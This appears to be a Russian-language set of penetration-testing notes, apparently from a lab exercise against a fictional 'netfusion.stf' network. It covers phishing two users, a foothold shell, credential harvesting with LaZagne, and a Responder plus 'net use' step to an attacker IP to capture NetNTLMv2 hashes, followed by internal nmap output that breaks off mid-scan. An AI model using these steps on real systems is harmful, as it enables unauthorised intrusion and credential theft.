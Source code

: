 
Отправляем фишинг и запуск fuff на сайты
S_Guerra@netfusion.stf
P_Ayala@netfusion.stf

Получаем доступ к S_Guerra
LaZagne не выдал результата, привилегий нет. 
Получим netntlmv2. Запустим responder и в полученном раннее шелле пропишем net use \\10.127.246.243  [[pass+log]]


Внутряк 10.154.2.85
10.154.2.87
10.154.2.91
10.154.2.102
10.154.2.105
10.154.2.106
10.154.2.107
10.154.2.110
10.154.2.214
10.154.2.220
10.154.2.222


>[!tip]- сканирование внутренний сети
>Nmap scan report for 10.154.2.84
Host is up (0.063s latency).
Not shown: 213 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http
| fingerprint-strings: 
|   DNSVersionBindReqTCP, RPCCheck, X11Probe: 
|     HTTP/1.0 400 Bad request
|     cache-control: no-cache
|     content-type: text/html
|_http-title: Did not follow redirect to http://support.srv.netfusion.stf:80
Nmap scan report for 10.154.2.85
Host is up (0.053s latency).
Not shown: 212 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    VERSION
80/tcp   open  http
|_http-title: Did not follow redirect to http://axelor-web.srv.netfusion.stf:80
8080/tcp open  http-proxy
Nmap scan report for 10.154.2.87
Host is up (0.053s latency).
Not shown: 211 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE    VERSION
80/tcp    open  http
|_http-title: Did not follow redirect to http://zabbix.srv.netfusion.stf:80
Nmap scan report for 10.154.2.91
Host is up (0.062s latency).
Not shown: 212 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    VERSION
80/tcp   open  http-proxy (bad gateway)
| fingerprint-strings: 